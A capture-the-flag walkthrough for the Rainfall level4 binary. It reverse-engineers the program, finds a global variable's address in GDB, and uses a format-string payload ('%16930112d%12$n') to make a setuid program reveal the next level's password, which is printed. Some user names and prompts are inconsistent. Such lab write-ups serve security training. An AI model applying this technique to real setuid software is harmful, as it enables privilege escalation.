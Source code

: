 # Rainfall Level 4 Guide
This guide will walk you through the process of finding the password for the `level3` user.

## 1. Examine your environment
   
`id` : Shows user and group identities that you have.
```bash
uid=2025(level4) gid=2025(level4) groups=2025(level4),100(users)
```
`pwd` : Displays the current directory you are in.
```bash
/home/user/level4
```
`ls -la` : Lists files and their permissions in the current directory.
```bash
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
```

We can see that the `level4` binary has the `setuid` bit set, which means that it runs with the permissions of the owner of the file. In this case, the owner is `level5`. It executable by the `users` group, our current group.

We execute the binary to see what it does. It waiting for an input, print it after pressing enter, and quit.

```bash
level4@RainFall:~$ ./level4
test
test
level4@RainFall:~$ ./level4
abc
abc
```

## 2. Reverse engineering

We will use Ghidra to reverse engineer the binary.
You can find the analysis in [Ressources/ghidra_analyse_level4.c](Ressources/ghidra_analyse_level4.c), and the reconstructed C code in [source.c](source.c).

## 3. Analysis

We find a main function that calls a function `n()`.
```c
int	n(void)
{
	char	local_20c[512];

	fgets(local_20c, 512, stdin);
	p(local_20c);
	if (m == 16930116)
		system("/bin/cat /home/user/level5/.pass");
	return(0);
}
```
The `n()` function reads a line from `stdin` into the buffer `local_20c` with `fgets()`.
The buffer 'local_20c' has a size of 512 bytes.
After reading the input, it calls the function `p()` with the buffer as an argument. The `p()` function prints the buffer with `printf()`.
After that, it checks if the variable `m` is equal to `16930116`. If it is, it will execute the command `system("/bin/cat /home/user/level5/.pass")`.
The variable `m` is a global variable that is set to `0` at the beginning of the program.

## 4. Find the address of the `m` variable

We will use GDB to find the address of the `m` variable.
```bash
gdb ./level4
```
```bash
(gdb) break main
Breakpoint 1 at 0x80484aa
(gdb) run
Starting program: /home/user/level4/level4 

Breakpoint 1, 0x080484aa in main ()
(gdb) info variables
All defined variables:

Non-debugging symbols:
...
0x0804980c  dtor_idx.6161
0x08049810  m
0xb7ffeca0  _rtld_global_ro
...
```
The address of the `m` variable is `0x08049810`.

## 5. Exploitation

We will use the `printf()` function to write the value `16930116` to the address of the `m` variable.
You can find more information about the `printf()` function in the [Vulnerabilities found in Rainfall](../README.md#printf) section.

### 5.1 Find the position of the input on the stack

We will identify the position of our input on the stack by using the `%x` format specifier.
```bash
python -c 'print "aaaa" + " %x" * 10' > /tmp/exploit
cat /tmp/exploit | ./level4
```
Return:
```bash
aaaa b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0
```
`aaaa` is the string "aaaa". `aaaa` is `61616161` in hexadecimal. We don't see `61616161` in the return. So we will increase the number of `%x` to find the position of our input.
```bash
python -c 'print "aaaa" + " %x" * 15' > /tmp/exploit
cat /tmp/exploit | ./level4
```
Return:
```bash
aaaa b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078
```
We can see that `61616161` is at the 12th position on the stack. So when we use our binary using `printf`, we can write to the 12th argument on the stack.

### 5.2 Write the `m` address to the 12th argument

We will write the address of the `m` variable to the 12th argument on the stack.
The address of the `m` variable is `0x08049810` (`\x10\x98\x04\x08` in little-endian).
```bash
python -c 'print "\x10\x98\x04\x08" + " %x" * 15' > /tmp/exploit
cat /tmp/exploit | ./level4
```
Return:
```bash
b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 8049810 20782520 25207825 78252078
```
We can see that the address `0x08049810` is at the 12th position on the stack.

### 5.3 Write the value `16930116` to the address of the `m` variable

We will used the `%n` format specifier to write the number of characters written by `printf()` to the address `0x08049810`, pointed by the 12th argument. We want to write the value `16930116`. So we will write `16930116` characters before the `%n` format specifier. "\x10\x98\x04\x08" has 4 characters. So we will write `16930112` additionnals characters.

We will used the `%d` format specifier to print the decimal value of the argument. `%200d` is used to print a decimal value with a width of 200 characters. We will write `16930112` characters before the `%n` format specifier. So we will use `%16930112d`.

`%12$n` allow to write the number of characters written by `printf()` to the address pointed by the 12th argument.

```bash
python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit
cat /tmp/exploit | ./level4
```
This displays lots of spaces, because `%XXd` print `XX` spaces. After displaying the spaces, the program checks the value of `m`. Now, the value of `m` is `16930116`.
So the program executes the command `system("/bin/cat /home/user/level5/.pass")`.

At the end of the execution, we can see the password for the `level5` user.

```bash
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

Congratulations!
We can now connect to the `level5` user with this password.
```bash
level2@RainFall:~$ su level5
Password:
level3@RainFall:~$
```
